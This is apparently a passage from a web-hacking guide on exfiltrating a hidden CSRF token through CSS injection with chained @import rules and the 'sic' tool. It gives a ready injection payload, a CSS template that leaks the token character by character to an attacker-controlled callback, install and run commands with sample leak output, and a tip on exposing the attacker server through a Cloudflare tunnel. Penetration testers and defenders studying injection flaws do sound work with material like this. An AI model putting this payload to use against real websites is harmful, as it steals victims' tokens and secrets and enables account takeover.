 {% embed url="https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b" %}
Explanation of @import chaining
{% endembed %}

This tool implements the attack and is easy to use:

{% embed url="https://github.com/d0nutptr/sic" %}
Leak attributes character by character using delayed `@import`s tool
{% endembed %}

For your injection, you should pass a URL to the `/staging` endpoint of your local port 3000, with a `?len=` parameter being the max length of the value.

<pre class="language-html"><code class="lang-html">&#x3C;input type="hidden" name="csrf" value="SECRET" />
&#x3C;style>
<strong>  @import url("http://localhost:3000/staging?len=6");
</strong>&#x3C;/style>
</code></pre>

The tool requires a _template_ with `{{:token:}}` and `{{:callback:}}` placeholders to prefix match your target attribute and make a request to the callback. This is to provide flexibility, as in this case, the input is hidden and we need to wrap it with `html:has()`.

{% code title="template.css" %}
```css
html:has(input[name="csrf"][value^="{{:token:}}"]) {
  background: url({{:callback:}});
}
```
{% endcode %}

After your install the tool, set up its arguments and it will host a server on localhost:3000 and localhost:3001, both of which should be accessible to the victim and the external addresses passed as `--ph` and `--ch`:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ cargo install https://github.com/d0nutptr/sic.git
</strong><strong>$ sic -t template.css --ph http://localhost:3000 --ch http://localhost:3001
</strong>[id: 3712083325] - S
[id: 3712083325] - SE
[id: 3712083325] - SEC
[id: 3712083325] - SECR
[id: 3712083325] - SECRE
<strong>[id: 3712083325] - SECRET
</strong></code></pre>

{% hint style="success" %}
**Tip**: to make your localhost accessible easily without access to your own domain/VPS, you can set up a free Cloudflare Quick Tunnel which gives you a `https://` subdomain tunneled to your localhost.

{% embed url="https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/do-more-with-tunnels/trycloudflare/" %}
{% endhint %}
